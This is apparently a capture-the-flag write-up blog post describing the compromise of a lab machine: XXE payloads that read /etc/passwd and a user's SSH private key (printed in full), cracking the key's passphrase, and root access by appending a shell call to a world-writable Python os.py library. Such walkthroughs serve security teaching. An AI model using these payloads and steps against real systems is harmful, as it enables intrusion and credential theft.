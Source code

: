 ```yaml
---
layout: post
author: maxin
title:  "Hijacking"
date:   2022-03-18 10:57:30 AM -03
category: CrowSec
tags: Writeup
---
```


# Enumeration

## Nmap

{% highlight text %}
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
{% endhighlight %}

## Port 80

This page has a login page and we can access with default credentials, like: admin/admin

After pass the login, we can see the page has a comment option

![Untitled](/images/hijacking/xmlInput.png)

When we click “submit” the page create an alert saying that we need to insert XML code. We can see a random character and we receive empty fields

![Untitled](/images/hijacking/outputXML.png)

Now we can create our xml payload

### XXE

I use this payload to test XXE and the variable show on name field

`<!DOCTYPE test [<!ENTITY xxe "Teste">]><root><name>&xxe;</name><author>aaa</author></root>`

We can use XXE to read internal files

`<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root><name>&xxe;</name><author>aaa</author></root>`

Note: Use burpsuite to make the request, it's easier.

{% highlight text  %}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
------------------ SNIP ------------------
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
suporte:x:1001:1001:,,,:/home/suporte:/bin/bash
{% endhighlight %}

The machine has a user name Suporte. We can try to enumerate his home directory and try to grab the private key

`<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///home/suporte/.ssh/id_rsa">]><root><name>&xxe;</name><author>aaa</author></root>`

{% highlight text %}
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,04A3681D22D979CC861329935A0DC5F4

dZZfYYgen8zl8EC9lZ/b+p6NkqA8Bsd7fLIjK+v8n+qY7GwGOFFo8c3vUWGVMLpg
Xkz5SsQbI/r76ZzMF0UW37m9hoXOLcD5DfgUC7JTii4Mt9UNUfTccyvGIHOj3JrG
lQNvg/geTiV39ZGX0ApJCeKJ7BgKA7Aw4wwPKt2fsk5oA2hAOS5QNkpao1GRaIiB
Az/HMCahKcvf8rAItoxXXhfSBQnSs77qyNFu6eRxtFWJ5Lj3UXsafZIv/UHCs/aJ
Ok3jxEMk6q/SuJ0ueoKgnuYdB8DOPITV5mkbiBg+9R4MMnINIPyz+yRcD1OEeKWd
I+mkBLN82soPZhY8D0Kl3laVpHZUj0Q8UbfSD10kzQzfKH0Vmtcdlfx76zanYbRk
tPEd6jTk1wcE22PLDH5h1YFOR9ABvwQpV02LtW9P+BlX4ImqWPCR6vHYWlxhvmmk
+5l6GxAfbiBEr/rqfE46PDj5cWw9J5jXmFfXcBskw9bT/FdQAze5yT19yXEgHqxK
9EcU0CUlxS/c2rqWOpcoTvlHeH1rWBf29esW5HNGElORWyzhKpC+ti/nrU23V5HB
eEwa0QDmT0xH3ruoeG4h9U6bG/h00wlNDvtfLCkps1oSKpjAGOoLEAy/6WdAKqCR
so2JF7t3k1xCVkgUtC6dKhpCjin2m+wB1s40MQcM0XmCQf+cpP+l7rbaO2qRecxD
kIcbP4lXDMd0Ip2wTPuUgBdBrI9U8ilM1PPYIoSIqZAun7v6sRxypM+11nMkQY1A
A6F2rOCO5dxNYKROZNr2LoQY0ZDMy+oec0R55y5W0Qxrka4JiO9uwWAmTTTxBP3q
K1FMIq7VsacAdQCzAfVYPdaEcRyKSxsgUGSYed7tDAf6UAbYG7cYtRqTIUYqENiv
S5hg7phrpC3LV2sgNGC/Gz0ULQwHmOXOaZY9saBQ7GBppxRx5qLz8Qxw0G7AzBJD
5itilQEjyx0I3T/Btf1+ipfgf9G4sKFYDfFbSx01PZHmmyzcyPRXkC8dW1D5SkUK
LirThuoHn8FQvvBdqv7ZvRInc4ykfkQ8ZmrfZFILI/logOV2XNQ8hOQ6/qK5TsER
Cq543XP8BefOp8B5F/Di55efmLjWZr4CVyhenGTKZd5SZP5RW80FcI1B4td+Wxph
wGpvYPn7D0FQMxaLftwT6734lLQLVQp3NZIogQLVRhJdG4k4AturjS2VKAZ1Rgcx
yYXQLM9f2HQqi+n2DquXzYEybQJ6zrD2ZpEvfOuSYaASDtrlDJ3u+m26C5RqdWp/
wNhus7h2y3vXlT20SXhJtV0lLwZEVJuiGs+xO2gMd93DXCW41p9HmgTmABoGdx8u
AoA35k+62FvYXVC76mZVhg3RYyYFdsFKDVAuvO74lwPqJKnU6Par3Xgg/gPL7mI0
MVuUE2UQbDkieIfx5MyDa2gC1OVHxQmOZ5XelhfVFtDLUDZNqNlVasYflhxLwjrV
n69/4SyzYMAlM/gOb2TQi3VshDEGGxz6NNKEImJY4AgyEHTlike34Ro2qt+lhT7D
P/OoncO6IYFFtEoFXMYvFndZ8PebtPDMmBt5Ph/vKfhlBwfE4Sx09vqhOa5yZ5zb
-----END RSA PRIVATE KEY-----
{% endhighlight %}

We need to bruteforce the private-key password

{% highlight bash %}
ssh2john id_rsa > id_rsa.hash # PASS:1qaz@WSX
{% endhighlight %}

{% highlight bash %}
ssh -i id_rsa suporte@$IP
{% endhighlight %}

Note: user.txt is in /opt directory

## Root

{% highlight text %}
sudo -l

User suporte may run the following commands on ip-10-9-2-12:
    (root) NOPASSWD: /usr/bin/python3.6 /opt/vert.py
{% endhighlight %}

{% highlight python %}
import os

class Vector:
   def __init__(self, a, b):
      self.a = a
      self.b = b

   def __str__(self):
      return 'Vector (%d, %d)' % (self.a, self.b)

   def __add__(self,other):
      return Vector(self.a + other.a, self.b + other.b)

v1 = Vector(2,10)
v2 = Vector(5,-2)
print(v1 + v2)
{% endhighlight %}

This script import os, but never use. We can see if user suporte has access to lib os 

{% highlight python %}
find / -name os.py -type f 2>/dev/null

ls -la /usr/lib/python3.6/os.py
-rw-rw-rw- 1 root root 37546 Feb 22 20:48 /usr/lib/python3.6/os.py
{% endhighlight %}

### Library hijacking

{% highlight python %}
echo 'system("/bin/bash")' >> /usr/lib/python3.6/os.py
{% endhighlight %}

`sudo /usr/bin/python3.6 /opt/vert.py`